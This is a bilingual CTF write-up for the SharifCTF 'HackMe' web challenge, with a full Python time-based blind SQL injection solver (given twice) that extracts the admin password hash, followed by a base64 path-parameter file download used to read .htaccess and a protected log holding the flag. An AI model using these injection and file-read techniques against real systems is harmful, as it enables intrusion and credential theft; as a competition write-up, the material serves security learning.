


## HackMe (Web, 400p)

> Hack me, please

###ENG
[PL](#pl-version)

We enter site that authors of challenge had given to us:



We quickly find SQLi inside username field.

After CTF, while reading writeups from other teams, we learned that it was possible to get results into formatted table directly (so no blind SQLi).
But we didn't manege to exploit it so we did something more *fun* and *massively overcomplicated* - timing attack.

Our solver, checking each character and sleeping few seconds in case of match:

```python
import requests
import datetime

url = 'http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/login.php'

last_token = 'd917611f76268fe2ede99beea2b3c768'

def request(query):
    global last_token
    exploit = "kot' + ({}) + 'kot".format(query)
    r = requests.post(url, data={
        'Login': 'Login',
        'username': exploit,
        'user_token': last_token,
        'password': 'kot',
    }, cookies={
        'PHPSESSID': 'xxx',
        'SUCTF_SESSION_ID': 'xxx',
        'TEST': 'xxx'
    })
    
    resp = r.text
    magic = "<input type='hidden' name='user_token' value='"
    startndx = resp.find(magic)+len(magic)
    last_token = resp[startndx:startndx+len(last_token)]

    if 'CSRF token is incorrect' in resp:
        print 'csrf fail, retrying'
        return request(query)
    else:
        return 'User Name or Password incorrect' in resp

# not reliable enough
def timing_attack(ndx, table, column):
    start = datetime.datetime.utcnow()   
    factor = 2
    base = 32
    res = request("select sleep((ord(substring({4}, {1})) - {2})/{0}) from {3}".format(factor, ndx+1, base, table, column))
    if not res:
        print 'something failed'
        return None
    else:
        end = datetime.datetime.utcnow()
        diff = (end - start).total_seconds()
        c = int(round(diff * factor + base))
        print table, column, ndx, diff, c, chr(c)
        return chr(c)

def timing_attack2(ndx, table, column):
    i = 0
    for c in 'abcdef0123456789':
        start = datetime.datetime.utcnow()
        res = request("select sleep(case when substring({2}, {0}, 1) = '{3}' then 5 else 0 end) from {1}".format(ndx+1, table, column, c))
        if not res:
            print 'something failed'
            return None
        else:
            end = datetime.datetime.utcnow()
            diff = (end - start).total_seconds()
            if diff > 5:
                print
                print table, column, ndx, c, diff
                return c

request("select 'warmup'")

for i in range(32):
    timing_attack2(i, 'user', 'password')
```

We managed to extract username and password from database that way - 26a340b11385ebc2db3b462ec2fdfda4.
Password is hash from `catchme8`.

We were really disapointed when it turned out that this was only first step in this challenge:



Most interesting thing here is "help.pdf" link in menu:

    http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/file.php?page=aGVscC5wZGY

Page parameter is equal to "help.pdf".encode("base64").

So first think we did was to change this parameter - and yeah, we can download any file from website we want to.

We used this to download index.php, ping.php and any file we could. Sadly, we couldn't find vulnerability in any of them (we did, for a long time).

But then we decided to download .htaccess file:

    <Files "sensitive_log_881027.txt">
    Order Allow,Deny
    Deny from all
    </Files>

And yes, sensitive_log_881027.txt could be downloaded with this exploit and was really interesting:

    SharifCTF{fad0e0d4e40493a82a52e5c8e1738b87}

###PL version

Wchodzimy na stronę podaną przez autorów zadania:


Szybko znajdujemy na niej SQLi w polu na nazwę użytkownika.

Czytając writeupy innych drużyn dowiadujemy się, że przy odpowiedniej ilosci kolumn dostajemy pięknie wyniki w postaci tabeli.
Niestety, my tego nie zauważyliśmy i napisaliśmy *bardzo* przekomplikowany solver, używając timing-attacku. Cóż, przynajmniej było ciekawiej.

Nasz solver, który sprawdzał po kolei każdy znak hasła:

```python
import requests
import datetime

url = 'http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/login.php'

last_token = 'd917611f76268fe2ede99beea2b3c768'

def request(query):
    global last_token
    exploit = "kot' + ({}) + 'kot".format(query)
    r = requests.post(url, data={
        'Login': 'Login',
        'username': exploit,
        'user_token': last_token,
        'password': 'kot',
    }, cookies={
        'PHPSESSID': 'xxx',
        'SUCTF_SESSION_ID': 'xxx',
        'TEST': 'xxx'
    })
    
    resp = r.text
    magic = "<input type='hidden' name='user_token' value='"
    startndx = resp.find(magic)+len(magic)
    last_token = resp[startndx:startndx+len(last_token)]

    if 'CSRF token is incorrect' in resp:
        print 'csrf fail, retrying'
        return request(query)
    else:
        return 'User Name or Password incorrect' in resp

# not precise enough
def timing_attack(ndx, table, column):
    start = datetime.datetime.utcnow()   
    factor = 2
    base = 32
    res = request("select sleep((ord(substring({4}, {1})) - {2})/{0}) from {3}".format(factor, ndx+1, base, table, column))
    if not res:
        print 'something failed'
        return None
    else:
        end = datetime.datetime.utcnow()
        diff = (end - start).total_seconds()
        c = int(round(diff * factor + base))
        print table, column, ndx, diff, c, chr(c)
        return chr(c)

def timing_attack2(ndx, table, column):
    i = 0
    for c in 'abcdef0123456789':
        start = datetime.datetime.utcnow()
        res = request("select sleep(case when substring({2}, {0}, 1) = '{3}' then 5 else 0 end) from {1}".format(ndx+1, table, column, c))
        if not res:
            print 'something failed'
            return None
        else:
            end = datetime.datetime.utcnow()
            diff = (end - start).total_seconds()
            if diff > 5:
                print
                print table, column, ndx, c, diff
                return c

request("select 'warmup'")

for i in range(32):
    timing_attack2(i, 'user', 'password')
```

Dostajemy w ten sposób nazwę użytkownika (wcześniej) - admin, oraz jego hasło - 26a340b11385ebc2db3b462ec2fdfda4.
Hasło jest hashem ze słowa `catchme8`.

Bardzo się zawiedliśmy, kiedy okazało się ze to dopiero pierwszy krok zadania:


Zwracamy jednak uwagę na link "help.pdf" w menu:

    http://ctf.sharif.edu:35455/chal/hackme/6bfd0c2a2e01cf06/file.php?page=aGVscC5wZGY

Wartość parametru "page" jest równa "help.pdf".encode('base64')

Pierwsze co sprawdzamy to podmiana tego parametru i faktycznie - możemy pobrać dowolny plik ze strony.

Wykorzystujemy to do pobrania plików "index.php", "ping.php" i wszystkich innych - okazuje sie że żaden z nich nie jest interesujący (długo szukaliśmy w nich vulna, okazało się to być fałszywym tropem).

Ale .htaccess okazał się ciekawszy:

    <Files "sensitive_log_881027.txt">
    Order Allow,Deny
    Deny from all
    </Files>

I faktycznie, wystarczyło pobrać ten plik aby dostać flagę:

    SharifCTF{fad0e0d4e40493a82a52e5c8e1738b87}

